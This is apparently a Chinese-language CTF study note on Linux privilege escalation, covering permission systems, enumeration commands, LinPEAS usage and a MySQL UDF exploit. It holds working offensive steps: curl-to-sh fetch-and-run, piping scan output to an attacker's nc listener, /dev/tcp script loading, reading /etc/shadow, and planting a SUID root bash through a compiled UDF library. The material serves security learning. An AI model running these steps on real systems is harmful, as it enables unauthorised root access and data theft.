 ```yaml
---
title: Linux提权原理
date: 2025-07-02 16:20:24
description: Linux提权
tags:
- Linux
- Privillege Escalation
categories:
- CTF
---
```


## 权限体系

### 常用体系

1. **ugo-rwx**
2. **s位suid，sgid**
3. **Capabilities 权限能力**
4. **Appamor，Selinux** //基于文件名、路径的权限，强制访问控制
5. **ACL**（访问控制列表）

### 非常用体系

6. Grsecurity
7. Pax
8. ExecShield
9. ASLR
10. TOMOYO Linux
11. SMACK
12. Yama
13. CGroups
14. Linux Namespaces
15. StackGuard
16. Propolice
17. Seccomp
18. ptrace
19. capsicum
20. Mprotect
21. chroot
22. firejail

---

## 建立交互性强的终端shell

```bash
python -c "import pty;pty.spawn('/bin/bash')"
stty raw -echo
export TERM=xterm[-color]
rlwrap nc -lvnp 4444 # rlwrap可以使用pgup/pgdown功能
```

---

## 枚举 Enumeration

### 手工枚举（高优先）

1. 查看用户基本信息
`whoami，id，who，w #当前用户详细情况，last`
2. 查看内核情况
`uname -a，lsb\_release -a，cat /proc/version，cat /etc/issue`
3. 查看网络情况
`hostnamectl，ip addr | ifconfig(declared)，ip route，ip neigh\[bour\]，arp -a，hostname`
4. 查看权限情况
`sudo -l，getcap -r / 2>/dev/null，find / -perm -u=s -type f 2>/dev/null`
5. 查看文件操作情况
`history，cat /passwd; ls -liah /etc/shadow`
6. 查看定时任务
`cat /etc/crontab ; cat /etc/cron.d/*`
7. 查看环境变量
`echo $PATH ; env`
8. 查看进程
`ps -ef [aux] [axjf]`
9. 查看端口情况
`netstat -[a][t][u][l][s][n][o]`
10. 查看可使用脚本
`which awk perl python ruby gcc vi vim nmap find netcat nc wget curl tftp ftp tmux screen 2>/dev/null`
11. 查看磁盘挂载情况
`cat /etc/fstab`

### 自动枚举工具

1. **Linpeas(PEASS-ng)**

    ```bash
    # 基础使用方法(不建议)
    wget https://github.com/carlospolop/PEASS-ng/releases/download/20230625-4d3aaa66/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    
    # 免下载运行(建议方法)
    curl -L https://github.com/carlospolop/PEASS-ng/releases/download/20230625-4d3aaa66/linpeas.sh | sh
    
    # 无网络情况
    ## kali下载后开启http.server,目标机器使用curl下载运行
    
    # 目标扫描结果传回kali
    ## kali
    python -m http.server
    sudo nc -lvnp lport | tee linpeas.txt
    ## 目标机器
    curl ka.li.linux.ip/linpeas.sh | sh | nc ka.li.linux.ip lport
    ## kali读取linpeas.txt
    less -r linpeas.txt
    
    # 目标机器无法使用curl的情况
    ## kali
    sudo nc -lvnp lport < linpeas.sh
    ## target
    cat < /dev/tcp/ka.li.linux.ip/lport | sh
    ```
2. [LinEnum](https://github.com/rebootuser/LinEnum)
3. [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
4. [linux-exploit-suggester](https://github.com/jondonas/linux-exploit-suggester-2)
5. [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

---

## 服务漏洞利用提权

### Mysql-UDF提权(User Defined Fuction)

#### 利用条件

1. 有mysql数据库账号，拥有CRUD权限
2. MYSQL数据库secure_file_priv=''

#### 利用方法

1. 生成链接文件
	```bash
	$ searchsploit mysql udf
	$ searchsploit mysql udf -m 1518
	
	# 将raptor_udf2.c传到目标服务器上编译
	$ gcc -g -c raptor_udf2.c -fPIC 
	$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
	```
2. mysql提权
	```mysql
	show variables like '%secure_file_priv%';
	show variables like '%plugin%'; # 查询结果为$plugin_dir
	use mysql;
	create table foo(line blob);
	insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
	select * from foo into dumpfile '$plugin_dir/raptor_udf2.so';
	create function do_system returns integer soname 'raptor_udf2.so';
	select * from mysql.func;
	select do_system('cp /usr/bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
	```
	```bash
	/tmp/rootbash -p
	```
